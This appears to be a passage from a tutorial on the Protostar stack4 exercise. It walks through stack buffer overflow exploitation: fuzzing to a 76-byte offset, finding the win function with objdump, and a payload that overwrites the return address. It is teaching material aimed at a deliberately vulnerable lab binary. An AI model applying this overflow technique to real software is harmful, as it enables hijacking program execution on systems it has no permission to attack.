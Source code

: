 We will now target the return address of the main `eip` function. This address is stored on the stack at the beginning of the frame. The main point now is to find out how far we will have to go to overflow this variable. In order to do it, we will try to overflowing the buffer and increase the value until we get a segmentation error message.

```bash
cd /opt/protostar/bin
(python -c "print 'A' * 64") | ./stack4
(python -c "print 'A' * 68") | ./stack4
(python -c "print 'A' * 72") | ./stack4
(python -c "print 'A' * 76") | ./stack4
```

**Output**

![image-15](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/5afb15034ccc33d4750897090b47a57e-15.png "Image-15")

We did increase by 4 each time and we got the "Segmentation fault" error message when we did try to put a string of 76 characters. Considering this, we can say that after 76 bytes is the area that overwrites `eip`, so we will need 76 "A" and the address of `win` in Little Endian:

```bash
cd /opt/protostar/bin
objdump -x stack4 | grep "win"
```

**Output**

![image-16](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/5afb15034ccc33d4750897090b47a57e-16.png "Image-16")

Now that we got the `win` address, we just need to use Python to print 76 "A" then the address in Little Endian as the below example:

```bash
(python -c "print 'A' * 76 + '\xf4\x83\x04\x08'") | ./stack4
```

**Output**

![image-17](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/5afb15034ccc33d4750897090b47a57e-17.png "Image-17")

In this article, we saw several examples of buffer overflow on the stack where the objective was simply to change a variable or to jump on a function. In real life, we will rather try to execute what we want, through a shell. This will be the subject of our [next article](https://github.com/neoslab/tutorials/blob/master/articles/21301488d1528d66211d9f24a88ba783.md).

For more information on how this script works, I encourage you to watch the video below.

[![video-1](https://i3.ytimg.com/vi/w4wNgTnWqdQ/maxresdefault.jpg)](https://www.youtube.com/watch?v=w4wNgTnWqdQ)
